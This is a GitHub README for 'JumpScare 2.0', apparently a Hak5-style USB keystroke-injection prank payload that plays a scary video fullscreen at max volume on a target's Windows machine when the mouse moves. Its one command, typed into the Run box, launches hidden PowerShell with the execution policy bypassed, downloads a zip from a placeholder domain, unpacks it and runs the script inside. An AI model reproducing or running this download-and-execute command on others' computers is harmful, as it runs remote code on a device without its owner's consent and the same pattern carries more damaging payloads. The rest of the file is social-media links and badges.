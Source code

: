 ##

<img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 

<h1 align="center">
  <a href="https://git.io/typing-svg">
    <img src="https://readme-typing-svg.herokuapp.com/?lines=Welcome+to;JumpScare+2.0!+😈&center=true&size=30">
  </a>
</h1>

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# JumpScare 2.0

A script used to jumpscare your target.

## Description

This script will jumpscare your target.

A jumpscare video will be downloaded to their temp directory. 

When a mouse movement is detected, that video will be played in the PowerShell console at max volume and fullscreen.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

##

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";irm -Uri 'https://MYDOMAIN.HERE/kiv' -O "$D\js.zip";Expand-Archive "$D\js.zip" -Des $D -Force;. "$D\js\js.ps1"
```

##

## Contributing

All contributors names will be listed here

M3!

##

## Version History

* 0.1
    * Initial Release

##

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/M3?sub_confirmation=1">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/twitter.com/github.com/M3!">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/twitter.com/github.com/M3!/">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/MY-GITHUB/URL/PATH/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
    <td align="center" width="96">
      <a href="https://www.tiktok.com/@M3!?lang=en">
        <img src=https://github.com/MY-GITHUB/URL/PATH/raw/main/img/tiktok.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>TikTok
    </td>    
  </tr>
</table>
</div>

##

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

##

<p align="center">
        <img src="https://raw.githubusercontent.com/bornmay/bornmay/Update/svg/Bottom.svg" alt="Github Stats" />
</p>
